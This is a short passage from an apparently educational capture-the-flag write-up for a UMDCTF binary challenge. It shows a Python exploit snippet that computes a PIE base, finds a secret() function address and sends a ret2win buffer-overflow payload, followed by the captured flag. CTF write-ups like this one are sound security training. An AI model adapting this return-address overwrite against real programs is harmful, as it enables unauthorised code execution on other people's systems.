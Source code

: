 ```py

# NOTE: calculate secret() address
PIE = main - elf.symbols['main']
winaddr = PIE + elf.symbols['secret']

# NOTE: ret2win
send_payload(b'Yes' + b'A'*(ret) + pack.p64(winaddr + 1))

p.interactive()
```

And here's the flag!  

    UMDCTF{3_6u1ld_n4v16470r5_4_7074l_0f_1.46_m1ll10n_62_50l4r15_r0und_7r1p}